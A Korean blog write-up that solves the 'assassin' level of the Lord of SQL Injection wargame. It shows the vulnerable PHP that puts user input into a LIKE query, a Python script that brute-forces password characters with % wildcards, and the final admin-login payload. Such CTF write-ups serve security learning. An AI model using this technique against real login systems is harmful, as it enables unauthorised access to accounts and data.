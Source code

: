 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - assassin 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번에는 문제 이름이 몬스터 이름이 아니다.  

`assassin` 문제인데, 개인적으로 재밌던 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from prob_assassin where pw like ''
-----------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

필터링이 `'(싱글쿼터)` 딱 한개만 있다.  

그리고 `=` 대신에 `like`이 쓰였다.  

처음에는 `'`를 우회하는 방법이 있을 거라고 생각 해 이 부분에 초점을 맞추어 문제를 풀어보려 했다.  

그런데 아무리 해도 우회를 하는 방법을 찾을수가 없었다.  

그러다 눈에 띈 부분이 왜 `=`가 아니라 `like`을 사용 했을까 였다.  

나는 단순히 `=`와 `like`가 동일하다고 생각했는데, 뭔가 다른 점이 있을 것 같았다.  

그래서 구글에 `mysql like`이라고 검색을 해봤는데, `%`를 알게 되었다.  

`like`을 사용한다면, `%`를 이용 해 특정 문자가 있는 행을 추출할 수 있다.  

예를 들어 아래와 같은 쿼리문이 있다고 가정해보자.  

```
select * from user where id like '%a%';
```

이 경우, `%`는 `모든 문자`를 의미하게 된다.  

때문에 `%a%`라고 한다면, `a`의 앞뒤로 어떠한 문자가 있는 경우를 말한다.  

즉, `man`, `woman` 등은 `a`의 앞뒤로 문자가 있어 조건에 부합하게 된다.  

반면 `apple`는 `a`의 앞에 문자가 없기 때문에 조건에 맞지 않는다.  

그래서 이 방법을 가지고 `assassin` 문제를 풀기로 했다.  

가장 먼저 테스트 한 것은 그냥 `%`만 입력 해 보는 것이었다.  

`pw`에 분명 문자가 있을테니, `pw`에 `뭐라도 문자가 있는 행`을 추출 해 보려 했다.  

그런데 `Hello guest`가 출력되었다.  

아마도 테이블에 `guest`가 `admin`보다 위에 있어 먼저 추출 된 것 같다.  

그래서 이번에는 `%a%` 형태로 만들어서 하나하나 테스트 해 보기로 했다.  

손으로 하려다가 귀찮아져서 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/assassin_14a1fd552c61c60f034879e5d4171373.php?pw=%"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for i in range(48, 128):
	try:
		query = url + chr(i) + "%"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		flag += chr(i)
		print "[+] Found :", flag

print "[+] Found password : ", flag
print "[+] End"
```

그런데 결과가 안나왔다.(눙물...)  

그래서 이번에는 `Hello guest`가 출력되는 문자를 찾도록 조건문을 수정 해 다시 테스트 해 보았다.  

그 결과 아래와 같은 문자들을 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found : 0
[+] Found : 01
[+] Found : 012
[+] Found : 0129
[+] Found : 0129D
[+] Found : 0129DE
[+] Found : 0129DEF
[+] Found : 0129DEF_
[+] Found : 0129DEF_d
[+] Found : 0129DEF_de
[+] Found : 0129DEF_def
[+] Found password :  0129DEF_def
[+] End
```

아마도 테이블에서 `guest`와 `admin`의 `pw`가 같은 문자들로만 이루어져 있고, `guest`가 `admin`보다 위에 있어 `guest`만 출력되는 것 같다.  

그래서 저 문자를 적절하게 조합하면 `admin`을 얻을 수 있지 않을까 생각 해, 이것저것 시도 해 보다 보니 아래와 같이 입력했을 때 문제를 풀 수 있었다.  

```
?pw=%e%d%
```

```php
--------------------------------------------------------------------------
query : select id from prob_assassin where pw like '%e%d%'
--------------------------------------------------------------------------

Hello admin
ASSASSIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

`ASSASSIN Clear!!`
